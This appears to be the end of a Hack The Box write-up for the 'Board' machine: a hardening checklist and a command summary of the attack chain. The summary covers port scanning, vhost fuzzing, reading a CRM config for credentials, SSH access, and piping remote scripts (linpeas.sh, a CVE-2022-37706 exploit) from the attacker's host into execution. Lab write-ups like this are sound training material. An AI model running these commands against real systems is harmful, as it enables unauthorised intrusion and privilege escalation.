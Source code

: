         <ul class="space-y-3 text-gray-700 dark:text-gray-300">
            <li class="flex items-start gap-2">
                <i class="fas fa-check text-green-500 mt-1"></i>
                <span>Audit SUID binaries (<code>find / -perm -4000 2>/dev/null</code>)</span>
            </li>
            <li class="flex items-start gap-2">
                <i class="fas fa-check text-green-500 mt-1"></i>
                <span>Update Enlightenment to version ≥ 0.25.4</span>
            </li>
            <li class="flex items-start gap-2">
                <i class="fas fa-check text-green-500 mt-1"></i>
                <span>Harden SSH (public keys only, disable password auth)</span>
            </li>
            <li class="flex items-start gap-2">
                <i class="fas fa-check text-green-500 mt-1"></i>
                <span>Monitor access logs and suspicious activities</span>
            </li>
        </ul>
    </div>
</div>

---

## 📝 Command Summary

```bash
# Network reconnaissance
nmap -Pn -p- --min-rate=1000 -T4 10.10.11.11
ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.11.11 | grep '^[0-9]' | cut -d'/' -f1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -Pn -sC -sV 10.10.11.11

# Virtual host fuzzing
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt:FUZZ \
     -u http://board.htb/ -H 'Host: FUZZ.board.htb' -fs 15949

# Shell stabilization
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
stty rows 38 columns 160

# Configuration file enumeration
cat /var/www/html/crm.board.htb/htdocs/conf/conf.php

# SSH connection
ssh larissa@board.htb

# LinPEAS
curl http://10.10.14.41:3000/linpeas.sh | bash

# Exploitation CVE-2022-37706
wget http://10.10.14.41:2000/exploit.sh
chmod +x exploit.sh
./exploit.sh
```

---